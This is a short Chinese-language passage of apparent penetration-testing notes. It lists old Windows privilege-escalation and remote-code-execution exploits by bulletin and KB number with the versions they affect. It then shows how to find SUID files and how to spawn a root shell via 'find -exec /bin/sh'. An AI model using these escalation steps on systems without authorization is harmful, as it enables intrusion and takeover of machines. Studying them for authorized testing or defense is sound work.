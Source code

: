 ```javascript
MS11-011 　[KB2393802]　　[kernel Driver]　　(2003/2008/7/XP/Vista)

MS10-092 　[KB2305420]　　[Task Scheduler]　　(2008/7)

MS10-065 　[KB2267960]　　[FastCGI]　　(IIS 5.1, 6.0, 7.0, and 7.5)

MS10-059 　[KB982799]　　 [ACL-Churraskito]　　(2008/7/Vista)

MS10-048 　[KB2160329]　　[win32k.sys]　　(XP SP2 & SP3/2003 SP2/Vista SP1 & SP2/2008 Gold & SP2 & R2/Win7)

MS10-015 　[KB977165]　　 [KiTrap0D]　　(2003/2008/7/XP)

MS09-050 　[KB975517]　　 [Remote Code Execution]　　(2008/Vista)

MS09-020 　[KB970483]　　 [IIS 6.0]　　(IIS 5.1 and 6.0)

MS09-012 　[KB959454]　　 [Chimichurri]　　(Vista/win7/2008/Vista)

MS08-068 　[KB957097]　　 [Remote Code Execution]　　(2000/XP)

MS08-067 　[KB958644]　　 [Remote Code Execution]　　(Windows 2000/XP/Server 2003/Vista/Server 2008)

MS08-025 　[KB941693]　　 [Win32.sys]　　(XP/2003/2008/Vista)

MS06-040 　[KB921883]　　 [Remote Code Execution]　　(2003/xp/2000)

MS05-039 　[KB899588]　　 [PnP Service]　　(Win 9X/ME/NT/2000/XP/2003)

MS03-026 　[KB823980]　　 [Buffer Overrun In RPC Interface]　　(/NT/2000/XP/2003)
```



### FIND命令提权

> **-exec  参数后面跟的是command命令，它的终止是以;为结束标志的，所以这句命令后面的分号是不可缺少的，考虑到各个系统中分号会有不同的意义，所以前面加反斜杠。**
>
> ==**find ./ -name "*.**txt"== -exec ls -l "{}" \;
>
> 会把find查出的命令移到{}中执行，即ls -l 查出的命令
>
> 
>
> find / -perm -u=s -type f 2>/dev/null
>
> 使用find命令查看拥有**suid**(root)权限的文件
>
> 
>
> find text -exec "whoami" \;
>
> 使用exec查看当前用户,text必须是可以找到的文件名，不然会出错.
>
> 
>
> find text.sh -exec "/bin/sh" \;
>
> 使用find命令来提权
